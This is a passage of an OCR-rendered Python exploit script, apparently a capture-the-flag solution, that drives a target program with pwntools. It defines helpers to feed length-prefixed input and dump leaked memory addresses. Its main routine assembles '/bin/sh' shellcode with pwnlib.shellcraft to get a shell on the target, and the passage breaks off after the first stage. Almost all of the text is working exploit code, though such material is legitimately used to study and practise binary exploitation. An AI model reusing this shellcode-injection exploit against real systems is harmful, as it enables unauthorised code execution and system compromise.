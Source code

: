 ```
	x.sendline(s)
	return 0
	
def app_input(x, s, l=-1):
	assert(len(s) > 0)
	
	if(l == -1):
		l = (len(s)-1)
	
	app_impulse(x,"a")
	
	# len
	x.recvuntil("len")
	x.sendline(str(l))
	
	# content/input
	x.sendline(s)
	
def app_dump(x):
	app_impulse(x,"b")
	
	# wait
	x.recvuntil("memory at ")
	
	# buf
	buf = x.recvline().strip().split(":")
	return buf
	

# https://stackoverflow.com/a/3368991
def find_between( s, first, last ):
    try:
        start = s.index( first ) + len( first )
        end = s.index( last, start )
        return s[start:end]
    except ValueError:
        return ""

def find_between_r( s, first, last ):
    try:
        start = s.rindex( first ) + len( first )
        end = s.rindex( last, start )
        return s[start:end]
    except ValueError:
        return ""


def main():	

	fin = 0
	stage = 0
	
	# https://github.com/Gallopsled/pwntools/issues/1048#issuecomment-335915889
	shell = pwnlib.shellcraft.sh()
	shell_asm = asm(shell)
	
	while(fin < 1):
		if(stage == 0):
			io = io_beg()	
			
			useful = io_useful(io)
			
			print("useful: "+useful)
```